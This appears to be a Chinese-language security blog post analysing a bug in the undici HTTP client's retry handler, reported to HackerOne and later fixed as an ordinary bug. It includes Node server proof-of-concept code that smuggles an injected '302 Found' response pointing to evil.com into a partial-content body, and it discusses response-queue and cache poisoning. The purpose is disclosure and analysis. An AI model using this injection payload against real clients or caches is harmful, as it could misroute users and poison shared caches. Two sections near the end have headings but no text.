## 先備知識

- [HTTP/1.1 Message](../http/anatomy-of-an-http-message.md)
  
- [HTTP/1.1 Keep-Alive, Connection](../http/keep-alive-and-connection.md)
  
- [HTTP range requests](../http/http-range-requests.md)
  
- [HTTP conditional requests](../http/http-caching-1.md)
  
- [HTTP Cache Directives (ETag, Cache-Control)](../http/http-caching-1.md)
  

## 本文想研究的情境


```mermaid
sequenceDiagram
  participant c as client
  participant s as server

  c ->> s: 我要下載 video.mp4
  s ->> c: 好的沒問題，給你
  Note over c,s: 下載到一半斷線
  c ->> s: 給我後半段的影片
  s ->> c: 好的沒問題，給你
  Note over c,s: client 怎麼驗證前半段跟後半段<br/>能無縫接軌呢？
```

## `undici` `RetryHandler`

這次研究的標的，就是 `undici` 的 `RetryHandler`，在 response body 傳輸時終斷，會自動 retry

client code 如下：

```js
import { Client, interceptors } from "undici";

const origin = "http://localhost:5000";
const client = new Client(origin).compose(interceptors.retry());
const response = await client.request({
  method: "GET",
  path: "/users/1",
});
console.log(response);
```

server 端想要達成的情境是

1. 第一輪宣告 5 bytes 的 response body，但傳輸 3 bytes 就斷線


```mermaid
sequenceDiagram
  participant u as undici
  participant s as server

  u ->> s: GET /users/1 HTTP/1.1
  s ->> u: HTTP/1.1 200 OK<br/>Content-Length: 5<br/>ETag: 123<br/>Cache-Control: max-age=600<br/><br/>use
  Note over u,s: connection interrupted
```

<!--  -->

2. 第二輪 `undici` 會發出 conditional range request 來取得後面 2 bytes，server 依照 client 的要求回應


```mermaid
sequenceDiagram
  participant u as undici
  participant s as server

  u ->> s: GET /users/1 HTTP/1.1<br/>If-Match: 123<br/>Range: bytes=3-4
  s ->> u: HTTP/1.1 206 Partial Content<br/>Content-Length: 2<br/>ETag: 123<br/>Content-Range: bytes 3-4/5<br/><br/>r1
```

<!--  -->

server code 如下：

```js
import http from "http";

let count = 0;
const User1 = "user1";
const server = http.createServer();
server.listen(5000);
server.on("request", (req, res) => {
  count++;
  // 第一輪
  if (count === 1) {
    res.setHeader("ETag", "123");
    res.setHeader("Content-Length", 5);
    res.setHeader("Cache-Control", "max-age=600");
    res.write(User1.slice(0, 3), () => res.destroy());
    return;
  }

  // 第二輪
  assert(req.headers.range === "bytes=3-4");
  assert(req.headers["if-match"] === "123");

  res.statusCode = 206;
  res.setHeader("ETag", req.headers["if-match"]);
  res.setHeader("Content-Range", "bytes 3-4/5");
  res.end(User1.slice(3));
});
```

最終 client code 會拿到以下 response

```js
{
  statusCode: 200,
  statusText: 'OK',
  headers: {
    'etag': '123',
    'content-length': '5',
    'cache-control': 'max-age=600'
  },
  body: 'user1'
}
```

## 如何讓 `undici` 的 `RetryHandler` 狀態機異常

**如果第二輪 response 的 `Content-Range` 只宣告 2 bytes，但實際傳輸的 body 比 2 bytes 更長，undici 會怎麼處理呢？**



HTTP round trip 如圖：


```mermaid
sequenceDiagram
  participant u as undici
  participant s as server

  u ->> s: GET /users/1 HTTP/1.1<br/>If-Match: 123<br/>Range: bytes=3-4
  s ->> u: HTTP/1.1 206 Partial Content<br/>ETag: 123<br/>Content-Range: bytes 3-4/5<br/>Content-Length: 70<br/><br/>r1HTTP/1.1 302 Found<br/>Location: http://evil.com<br/>Content-Length: 0
  Note over u: undici 會如何處理這個 edge case 呢？
```

<!--  -->

調整一下 server code（只有第二輪需要調整）：

```js
// 第二輪
assert(req.headers.range === "bytes=3-4");
assert(req.headers["if-match"] === "123");
const InjectedResponse =
  "HTTP/1.1 302 Found\r\n" +
  "Location: http://evil.com\r\n" +
  "Content-Length: 0\r\n" +
  "\r\n";
res.statusCode = 206;
res.setHeader("ETag", req.headers["if-match"]);
res.setHeader("Content-Range", "bytes 3-4/5");
res.end(User1.slice(3) + InjectedResponse);
```

**最終 client code 會拿到一個 header/body 不一致的 response**

**（`Content-Length` 宣告 5 bytes，但實際上拿到 73 bytes 的 body）**

```js
{
  statusCode: 200,
  statusText: 'OK',
  headers: {
    'etag': '123',
    'content-length': '5',
    'cache-control': 'max-age=600'
  },
  body: 'user1HTTP/1.1 302 Found\r\nContent-Length: 0\r\nLocation: http://evil.com\r\n\r\n'
}
```

## Potential security impact

### Response queue poisoning

**如果 client code 把 response 回傳給下游，則可能導致 Response queue poisoning**


```mermaid
sequenceDiagram
  participant c as 下游
  participant u as undici
  participant s as server
  s ->> u: ...省略
  u ->> c: HTTP/1.1 200 OK<br/>ETag: 123<br/>Content-Length: 5<br/>Cache-Control: max-age=600<br/><br/>user1HTTP/1.1 302 Found<br/>Location: http://evil.com<br/>Content-Length: 0
  Note over c: 下游看到 Content-Length: 5，所以往後吃了 5 bytes<br/>HTTP/1.1 302 Found...被留在 TCP buffer
  c ->> u: GET /users/2 HTTP/1.1
  Note over c: 下游可能把 HTTP/1.1 302 Found...當作 /users/2 的 response<br/>導致後續 response 全部錯位 => Response queue poisoning
```

### Web cache poisoning

如果 client code 把 response "user1HTTP/1.1 302 Found..." 拿去快取，就會導致 /users/1 的快取汙染

## 回報結果：Not a vulnerability

- I dont see how this would be a vulnerability.
- **If the attacker can control the server**, so they could do much more than impact the retry logic.
- **All things listed on impact could be done without this bug.**
- On the other hand, this looks like a proper bug that needs fixing.
- Would you mind opening a public issue?

## 真的是這樣嗎？

**If the attacker can control the server**，server 當然可以亂回！

```js
const User1 = "user1";
const InjectedResponse =
  "HTTP/1.1 302 Found\r\n" +
  "Location: http://evil.com\r\n" +
  "Content-Length: 0\r\n" +
  "\r\n";
const server = http.createServer((req, res) => {
  const socket = req.socket;
  assert(socket);
  // server 可以宣告 `Content-Length: 5`，實際上塞了 user1 + 完整的 HTTP/1.1 response
  socket.write(
    "HTTP/1.1 200 OK\r\n" +
      "Content-Length: 5\r\n" +
      "ETag: 123\r\n" +
      "Cache-Control: max-age=600\r\n" +
      "\r\n" +
      User1 +
      InjectedResponse,
  );
});
server.listen(5000);
```

**但最終 `undici` 還是會正確解析出 header/body 一致的 response**

```js
// undici HTTP client without "RetryHandler"
const client = new Client("http://localhost:5000");
const response = await client.request({ method: "GET", path: "/users/1" });
console.log(response);

{
  statusCode: 200,
  statusText: 'OK',
  headers: {
    'content-length': '5',
    etag: '123',
    'cache-control': 'max-age=600'
  },
  body: 'user1'
}
```

## 我想表達的是



## Security threat model of HTTP client & server

被 HTTP client "洗禮" 過之後，我有感而發



AI 的總結很有道理



## 小結

這個案例一開始回報到 Hackerone，最終變成 `undici` 的一個 BUG 處理

- [issue](https://github.com/nodejs/undici/issues/4970)
- [PR](https://github.com/nodejs/undici/pull/4975)

經過這次經驗，我現在判斷 HTTP client 的 finding 比較像 bug 還是 vulnerability 時，會先問自己：

- 有了這個 bug，attacker 額外長出了什麼新能力？
- 這個新能力有沒有跨出單一 request / response 的邊界？
